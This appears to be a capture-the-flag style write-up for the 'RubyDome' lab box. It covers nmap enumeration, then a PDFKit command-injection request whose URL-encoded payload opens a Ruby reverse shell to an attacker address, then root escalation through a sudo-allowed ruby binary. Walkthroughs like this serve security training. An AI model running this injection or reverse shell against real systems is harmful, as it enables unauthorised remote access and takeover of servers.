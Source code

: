 #Pwned
```IP
192.168.198.22
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.198.22 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
3000/tcp open  http    syn-ack ttl 61 WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP
### Directories
/pdf
/__sinatra__

### Exploits
```
searchsploit -m multiple/remote/33489.txt
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927094233.png?raw=true)

error:
```
get &#x27;&#x2F;%1b%5d%32%3b%6f%77%6e%65%64%07%0a&#x27; do
  &quot;Hello World&quot;
end
```

search for pdfkit vulnerabilities
https://github.com/shamo0/PDFkit-CMD-Injection
```
curl 'http://rubydome.pg:3000/pdf' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: rubydome.pg' -H 'Connection: keep-alive' -H 'Referer: rubydome.pg' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F192.168.45.250%3A3000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22192.168.45.250%22%2C80%29%29%27%60'
```

# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927102823.png?raw=true)
sudo -l
```
/usr/bin/ruby -e 'exec "sudo /bin/sh"'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927104659.png?raw=true)


## Automated

### Peass
### Mimikatz


